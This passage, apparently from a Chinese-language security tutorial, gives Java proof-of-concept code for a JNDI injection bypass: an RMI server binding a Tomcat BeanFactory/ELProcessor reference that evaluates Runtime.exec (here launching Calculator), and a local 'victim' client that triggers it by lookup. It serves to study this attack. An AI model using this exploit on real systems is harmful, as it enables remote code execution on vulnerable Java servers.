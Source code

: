 恶意服务端代码如下：

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIBypassServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry( 1099);
        // 实例化 ResourceRef 资源引用对象，指定资源类名为 javax.el.ELProcessor，资源工厂类名为 org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        // 在资源引用对象中添加一个字符串类型引用地址，传递引用类型和引用值参数
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "Runtime.getRuntime().exec('/System/Applications/Calculator.app/Contents/MacOS/Calculator')"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        registry.bind("exp", referenceWrapper);
    }
}
```

受害者服务端如下：

```plain
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.net.MalformedURLException;
import java.rmi.NotBoundException;
import java.rmi.RemoteException;

public class JNDIBypassClient {
    public static void main(String[] args) throws MalformedURLException, NotBoundException, RemoteException, NamingException {
        InitialContext initialContext = new InitialContext();
        initialContext.lookup("rmi://127.0.0.1:1099/exp");
    }
}
```
